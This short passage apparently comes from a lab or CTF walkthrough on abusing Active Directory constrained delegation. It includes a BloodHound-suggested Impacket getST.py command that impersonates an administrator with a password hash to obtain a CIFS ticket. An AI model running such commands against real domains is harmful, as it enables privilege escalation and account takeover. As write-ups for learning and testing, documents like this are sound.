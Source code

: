 instead of doing allowedtodelegate computer we can try on group users

i think we can use any of them

![alt text](<../assets/images/7 (1).png>)

lets use T1_C.FOWLER

bloodhound also gave us command

    getST.py -spn 'HTTP/PRIMARY.testlab.local' -impersonate 'admin' -altservice 'cifs' -hashes :2b576acbe6bcfda7294d6bd18041b8fe 'domain/victim'

![alt text](<../assets/images/Screenshot_2025-02-04_18_18_24.png>)
